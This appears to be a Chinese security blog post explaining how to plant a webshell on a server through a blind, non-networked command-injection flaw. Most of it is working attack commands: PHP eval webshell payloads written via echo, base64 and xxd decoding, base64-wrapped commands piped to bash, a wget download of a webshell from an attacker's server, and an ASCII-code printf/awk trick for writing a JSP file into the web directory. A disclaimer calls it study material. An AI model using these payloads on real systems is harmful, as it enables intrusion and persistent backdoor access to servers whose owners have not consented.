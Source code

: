 #  命令执行不出网、无回显、连基础工具base64/xxd都没有？极限生存下的命令执行，怎么打？   
 迪哥讲事   2025-05-11 14:01  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
    前端时间碰到一个站点，本身那个框架存在一个无回显的命令执行漏洞，平时验证的时候都是让它ping一下dnslog，但是那个站点执行ping动作后，dnslog没有一点反应，but执行payload的响应跟存在漏洞的响应返回非常相似，怀疑是个不出网的设备。漏洞的细节暂不公开，咱们今天主要聊聊极限环境下如何利用这个命令执行写入webshell。  
  
  
2  
  
Action  
  
    在搞之前咱们先回顾一下通常情况下的命令执行，我们如何写webshell呢？  
  
========================================================  
  
以下内容主要借鉴文章：  
https://developer.volcengine.com/articles/7381516634714079242  
  
========================================================  
1、echo直接写入  
```
echo '<?php eval($\_POST[1]); ?>' > 1.php
```  
  
直接写入webshell一般不会成功，因为webshell中使用的某些关键符号可能被转码或屏蔽  
  
2、  
base64写入  
```
echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >2.php
```  
  
使用base64是比较通用的方法，完美去除了webshell本身的特殊字符  
  
3、  
绕过重定向符  
```
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | bash
```  
```
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | sh
```  
  
重定向符>不可用时，我们可以将1或2中的整体命令base64编码，然后解码后通过bash或sh执行，  
其他字符绕过方式，如空格对应${IFS}等  
  
4、  
远端下载webshell  
```
远端服务器放置webshell,开启http
python -m http.server

目标机器执行
wget http://xx.xx.xxx.xx:8000/xxx.php
```  
  
可出网且有wget的情况下可采用此方式  
  
5、  
hex写入  
  
hex写入与base64写入相似，在 https://www.107000.com/T-Hex/  
  
将webshell编码成hex，使用xxd命令还原  
  
或在使用前将webshell使用xxd生成hex数据  
```
echo '<?php eval($\_POST[1]); ?>' |xxd -ps
```  
  
然后命令注入执行  
```
echo 3C3F706870206576616C28245F504F53545B315D293B203F3E|xxd -r -ps > 5.php
```  
  
========================================================  
  
    常见的命令执行写webshell的方式如上所示，显然第4项直接pass，因为不出网。第一项echo直接写入，也限制住了，正如上文所说  
webshell中使用的某些关键符号可能被转码或屏蔽。能走的法子就剩下base64和xxd方式了。崩溃的是目标服务器上这两个命令都没有，可以说是相当的纯净。  
  
  
    那就没其他法子了吗？就只能放弃了吗？除了base64编码，hex编码，还能有啥编码方式呢？而且最好还是linux系统自带的，不需要借助其他工具就能解析的编码方式？  
  
  
    终于是，让我成功想到了一个不借助其他第三方工具，  
linux系统本身就能解析的一种编码方式，那就是--ASCII码！！！  
  
  
    思路有了，下面就是实践了。具体该怎么实操呢？假如，我们需要向1.jsp里面写入<%out.print("1");%>内容，那我们便可以在本机电脑上创建一个python脚本  
```
# 要处理的字符串
text = '<%out.print("1");%>'
# 打开文件以写入
with open('ascii_values.txt', 'w') as file:
    for char in text:
        # 写入每个字符的 ASCII 值，每行一个
        file.write(f"{ord(char)}\n")
```  
    结果长这样```
60
37
111
117
116
46
112
114
105
110
116
40
34
49
34
41
59
37
62
```  
  
    上面的就是每个字符串的ASCII码值，然后将上面的内容排列成这样的格式  
```
60\n37\n111\n117\n116\n46\n112\n114\n105\n110\n116\n40\n34\n49\n34\n41\n59\n37\n62\n
```  
  
    再在命令执行的地方输入payload  
```
printf "60\n37\n111\n117\n116\n46\n112\n114\n105\n110\n116\n40\n34\n49\n34\n41\n59\n37\n62\n" > /xxxxx/1.txt
```  
  
    这时候只是将它写入到了1.txt中了，下面就是将1.txt中的ASCII码内容处理成解码后的状态，再执行命令  
```
awk '{ printf "%c", $1 }' /xxxxx/1.txt > /xxxxx/1.jsp
```  
  
    如果不懂这是啥意思，可以请教一下GPT/Deepseek  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UbMzxvewrvh9MvTjx8TUAj4PI5R1cjqyQeiaCXjuSE8I3N3kWWfQ1CwTGJ3U46oJbmicwaNeXxQDr5w/640?wx_fmt=png&from=appmsg "")  
  
    至此，就成功将  
<%out.print("1");%>不借助任何第三方的工具写入到了web目录下的1.jsp文件中了  
  
    同样的照这个方式即可写入webshell文件。  
  
  
3  
  
End  
  
    如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
  
往期回顾  
# 如何绕过签名校验  
#   
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
[‍](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
